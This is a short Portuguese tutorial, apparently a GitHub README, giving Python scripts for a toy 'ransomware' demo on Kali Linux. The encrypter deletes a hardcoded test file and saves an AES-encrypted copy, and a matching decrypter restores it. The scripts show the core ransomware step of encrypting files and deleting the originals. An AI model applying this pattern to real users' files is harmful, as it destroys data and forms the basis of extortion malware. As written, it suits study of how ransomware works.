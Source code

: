 # Cripitografar arquivos ultilizando a linguagem pyton no kali linux

## Crie uma pasta principal
ransomware_project.

## Dentro dela, crie dois arquivos Python:
encrypter.py (para criptografar)
decrypter.py ( para descriptografar)
  
## Crie uma pasta texte.txt 
coloque o texto que quiser dentro

## Dentro da encrypter.py coloque:

import os
import pyaes

## Nome do arquivo a ser criptografado
file_name = "teste.txt"

## Abrir o arquivo e ler os dados

with open(file_name, "rb") as file:
    file_data = file.read()

## Remover o arquivo original
os.remove(file_name)

## Chave de criptografia (deve ter 16, 24 ou 32 bytes)
key = b"testeransomwares"

## Criar o objeto de criptografia
aes = pyaes.AESModeOfOperationCTR(key)

## Criptografar os dados
crypto_data = aes.encrypt(file_data)

## Salvar o arquivo criptografado
new_file_name = file_name + ".ransomwaretroll"
with open(new_file_name, "wb") as new_file:
    new_file.write(crypto_data)

print(f"Arquivo criptografado e salvo como {new_file_name}")

## Dentro da decrypter.py coloque:

import os
import pyaes

## Nome do arquivo criptografado
file_name = "teste.txt.ransomwaretroll"

## Abrir o arquivo criptografado e ler os dados
with open(file_name, "rb") as file:
    file_data = file.read()

## Chave de descriptografia (mesma usada na criptografia)
key = b"testeransomwares"

## Criar o objeto de descriptografia
aes = pyaes.AESModeOfOperationCTR(key)

## Descriptografar os dados
decrypt_data = aes.decrypt(file_data)

## Remover o arquivo criptografado
os.remove(file_name)

## Criar o arquivo descriptografado
original_file_name = "teste.txt"
with open(original_file_name, "wb") as new_file:
    new_file.write(decrypt_data)

print(f"Arquivo descriptografado salvo como {original_file_name}")


## Para executar o script de criptografia, abra o terminal ou prompt de comando, navegue até a pasta onde estão os arquivos e digite:

python encrypter.py

## Para descriptografar o arquivo, execute:

python decrypter.py





